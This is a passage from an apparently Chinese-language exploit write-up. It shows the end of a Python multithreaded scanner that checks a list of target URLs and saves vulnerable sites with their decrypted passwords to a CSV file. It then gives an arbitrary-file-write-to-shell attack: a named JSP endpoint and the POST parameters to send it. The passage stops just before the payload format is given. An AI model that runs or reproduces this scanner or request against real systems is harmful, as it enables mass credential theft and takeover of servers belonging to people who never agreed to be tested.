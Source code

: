```python
        urlList = []
        with open(self.args.file, encoding="utf8") as f:
            for line in f.readlines():
                line = line.strip()
                if "https://" in line:
                    line = line.replace("https://", "http://")
                if "http://" not in line:
                    line = f"http://{line}"
                urlList.append(line)
        return urlList

    # 多线程运行
    def multiRun(self):
        self.findCount = 0
        self.vulnRULList = []
        self.lock = Lock()
        executor = ThreadPoolExecutor(max_workers=self.args.thread)
        executor.map(self.verify, self.urlList)

    # 输出到文件
    def output(self):
        self.outputFile = f"./output/passExport_{self.args.output}.csv"
        if not os.path.isdir(r"./output"):
            os.mkdir(r"./output")
        with open(self.outputFile, "a", encoding="gbk", newline="") as f:
            csvWrite = csv.writer(f)
            csvWrite.writerow(["URL","密码已解密）"])
            for result in self.vulnRULList:
                csvWrite.writerow(result)

    def __del__(self):
        try:
            print("\nattemptCount：\033[31m%d\033[0m   findCount：\033[32m%d\033[0m" % (len(self.urlList), self.findCount))
            self.end = time.time()
            print("Time Spent: %.2f" % (self.end - self.start))
            self.output()
            print("-" * 20, f"\nThe vulnURL has been saved in {self.outputFile}\n")
        except:
            pass

if __name__ == "__main__":
    POC()
```

## 任意文件写到getshell

&emsp;&emsp;访问```/sys/ui/extend/varkind/custom.jsp```，并且POST参数为```var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[payload]```

&emsp;&emsp;payload的格式为：
